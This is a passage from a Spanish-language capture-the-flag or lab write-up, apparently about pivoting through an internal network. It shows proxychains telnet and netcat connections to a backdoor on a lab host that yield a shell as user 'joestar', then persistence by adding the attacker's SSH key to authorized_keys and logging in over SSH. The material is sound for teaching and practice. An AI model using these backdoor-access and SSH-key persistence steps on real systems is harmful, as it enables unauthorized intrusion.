 ```bash
```

Vamos a buscar directamente por el cual dio error y hay un backdoor (En la maquina hay un backkdoor el cual vamos a usar para ganar acceso solo que la maquina tarda mucho en responder y no siempre funciona por eso no puse el output del comando pero si te funciona mejor)

Ganamos acceso

```bash
❯ proxychains telnet 10.10.0.129 10001
ProxyChains-3.1 (http://proxychains.sf.net)
|DNS-response|: miguelos does not exist
Trying 10.10.0.129...
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.0.129:10001-<><>-OK
Connected to 10.10.0.129.
Escape character is '^]'.
^AI20555
```

```bash
❯ proxychains nc 10.10.0.129 2222
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.0.129:2222-<><>-OK
bash: cannot set terminal process group (4813): Inappropriate ioctl for device
bash: no job control in this shell
joestar@tank1:/$ 
```

## Shell joestar 

Y pues haces lo mismo para que sea una consola interactiva copea tu clave id_rsa.pub y metela como `authorized_keys` por que la maquina se crashea rapido (no alcanze a copear el comando para mostrarlo pero es la misma historia) es que la maquina corrompe muy rapido

```bash
❯ proxychains ssh joestar@10.10.0.129
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.0.129:22-<><>-OK
The authenticity of host '10.10.0.129 (10.10.0.129)' can't be established.
ECDSA key fingerprint is SHA256:hgj8qLpSR3kYKFg3OSIw4Tr5aP6AkhUet33RFDqScAY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.0.129' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 17.04 (GNU/Linux 4.10.0-19-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing autonomous high availability clustering for MicroK8s
   production environments! Super simple clustering, hardened Kubernetes,
   with automatic data store operations. A zero-ops HA K8s for anywhere.

     https://microk8s.io/high-availability

314 packages can be updated.
0 updates are security updates.


Last login: Sun Oct 25 14:37:23 2020 from 10.0.0.7
joestar@tank1:~$ 

```

